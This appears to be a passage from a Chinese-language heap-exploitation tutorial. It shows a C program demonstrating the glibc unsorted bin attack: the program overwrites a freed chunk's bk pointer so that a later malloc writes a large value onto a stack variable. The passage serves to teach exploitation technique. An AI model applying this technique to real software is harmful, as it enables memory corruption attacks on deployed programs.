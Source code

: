 ```c
#include <stdio.h>
#include <stdlib.h>

int main() {
  fprintf(stderr, "This file demonstrates unsorted bin attack by write a large "
                  "unsigned long value into stack\n");
  fprintf(
      stderr,
      "In practice, unsorted bin attack is generally prepared for further "
      "attacks, such as rewriting the "
      "global variable global_max_fast in libc for further fastbin attack\n\n");

  unsigned long target_var = 0;
  fprintf(stderr,
          "Let's first look at the target we want to rewrite on stack:\n");
  fprintf(stderr, "%p: %ld\n\n", &target_var, target_var);

  unsigned long *p = malloc(400);
  fprintf(stderr, "Now, we allocate first normal chunk on the heap at: %p\n",
          p);
  fprintf(stderr, "And allocate another normal chunk in order to avoid "
                  "consolidating the top chunk with"
                  "the first one during the free()\n\n");
  malloc(500);

  free(p);
  fprintf(stderr, "We free the first chunk now and it will be inserted in the "
                  "unsorted bin with its bk pointer "
                  "point to %p\n",
          (void *)p[1]);

  /*------------VULNERABILITY-----------*/

  p[1] = (unsigned long)(&target_var - 2);
  fprintf(stderr, "Now emulating a vulnerability that can overwrite the "
                  "victim->bk pointer\n");
  fprintf(stderr, "And we write it with the target address-16 (in 32-bits "
                  "machine, it should be target address-8):%p\n\n",
          (void *)p[1]);

  //------------------------------------

  malloc(400);
  fprintf(stderr, "Let's malloc again to get the chunk we just free. During "
                  "this time, target should has already been "
                  "rewrite:\n");
  fprintf(stderr, "%p: %p\n", &target_var, (void *)target_var);
}
```

程序执行后的效果为
